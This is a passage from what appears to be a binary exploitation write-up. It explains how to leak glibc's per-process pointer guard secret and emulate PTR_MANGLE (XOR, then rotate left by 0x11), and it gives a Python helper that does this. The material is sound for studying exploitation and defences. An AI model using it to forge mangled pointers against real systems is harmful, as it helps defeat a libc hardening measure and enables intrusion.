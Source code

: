 ![fs_2](./images/fs_register_contents2.png)

So all we need to do is leak that value and emulate the PTR_MANGLE function. Should be simple!

### PTR_MANGLE code emulation

Basically we just need to leak the random value that libc generates from the page.

Once that is done, we can xor our value with it, then rotate it left by 0x11, and we have our mangled pointer

PTR_MANGLE emulated:

```py
def PTR_MANGLE(val,secret):
    #Shamelessly stolen from https://gist.github.com/trietptm/5cd60ed6add5adad6a34098ce255949a
    rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

    mangled = val^secret
    mangled = rol(mangled,0x11,64)

    return mangled
```
